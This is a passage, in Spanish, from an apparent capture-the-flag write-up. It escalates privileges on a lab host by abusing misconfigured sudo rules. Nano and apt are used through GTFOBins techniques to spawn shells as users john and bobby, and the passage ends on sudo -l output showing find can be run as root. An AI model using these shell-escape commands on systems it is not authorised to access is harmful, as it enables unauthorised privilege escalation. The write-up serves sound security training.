 Podemos ejecutar como `john` el binario `nano` por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/nano/#sudo

```shell
sudo -u john nano

#Dentro del nano
^R^X #(Esto te habrira una linea de comandos dentro del nano)
reset; sh 1>&0 2>&0
```

A eso ultimo le damos a `ENTER` y se nos habria ejecutado ese comando, por lo que hacemos.

```shell
clear
/bin/bash
```

Y habremos limpiado la terminal que se veia mal y tendremos una shell mejor.

## Escalate user bobby

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for john on c334669636c3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on c334669636c3:
    (bobby) NOPASSWD: /usr/bin/apt
```

Por lo que podremos ejecutar como `bobby` el binario `apt`, por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/apt/#sudo

```shell
sudo -u bobby apt changelog apt
```

Y dentro del entorno del `apt` escribimos lo siguiente a mano.

```shell
!/bin/bash
```

Con esto obtendremos la shell del usuario `bobby`.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for bobby on c334669636c3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on c334669636c3:
    (root) NOPASSWD: /usr/bin/find
```
